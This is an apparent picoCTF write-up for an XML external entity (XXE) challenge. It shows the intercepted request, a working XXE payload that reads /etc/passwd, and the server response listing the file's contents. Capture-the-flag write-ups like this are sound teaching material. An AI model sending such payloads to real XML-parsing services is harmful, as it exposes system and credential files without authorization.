 ## Description
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file? Web Portal

## Solution
We are given a webpage that create a xml post reques to /data as follow:

```
POST /data HTTP/1.1
Host: saturn.picoctf.net:50657
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://saturn.picoctf.net:50657/
Content-Type: application/xml
Content-Length: 95
Origin: http://saturn.picoctf.net:50657
Connection: close

<?xml version="1.0" encoding="UTF-8"?><data><ID>
1
</ID></data>
```

It seem to be vulnerable to `XXE` vulnerability. So checking this payload:

```
POST /data HTTP/1.1
Host: saturn.picoctf.net:50657
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://saturn.picoctf.net:50657/
Content-Type: application/xml
Content-Length: 142
Origin: http://saturn.picoctf.net:50657
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
  <ID>&xxe;</ID>
</data>

``` 

and will get the following response with flag in it:
```bash
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.8.10
Date: Tue, 05 Mar 2024 13:13:21 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1023
Connection: close

Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XXXXXXX}

```